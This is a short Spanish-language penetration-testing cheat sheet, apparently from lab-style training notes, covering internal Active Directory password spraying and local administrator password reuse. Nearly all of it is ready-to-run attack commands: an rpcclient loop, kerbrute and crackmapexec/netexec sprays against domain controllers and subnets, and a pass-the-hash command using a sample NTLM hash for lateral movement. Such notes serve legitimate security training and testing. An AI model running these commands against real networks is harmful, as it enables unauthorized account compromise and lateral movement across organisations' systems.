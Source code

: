 # INTERNAL PASSWORD SPRAYING
Luego de generar una lista de users previamente enumerados:

##### BASH ONELINER RCPCLIENT:
for u in $(cat <lista_users>);do rpcclient -U "$u%<pass>" -c "getusername;quit" <ip_DC> | grep Authority; done

##### KERBRUTE:
kerbrute passwordspray -d <dominio> --dc <ip_dc> <lista_users>  <pass>

##### CRACKMAPEXEC:
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

##### Podemos después usar crackmapexec para probar si los positivos no son falsos:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

##### Netexec

netexec rdp 10.129.229.0/24 -u helen -p 'RedRiot88' -d inlanefreight.local

# LOCAL ADMINISTRATOR PASSWORD REUSE
Si conseguimos privilegios administrativos y conseguimos el NTML o el password en texto plano del admin, podemos usarlo para loguearnos en otros hosts en la red.
Usualmente se usa la misma para todas debido a las Golden images y para un manejo más facil de todas las pc del realm.

    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
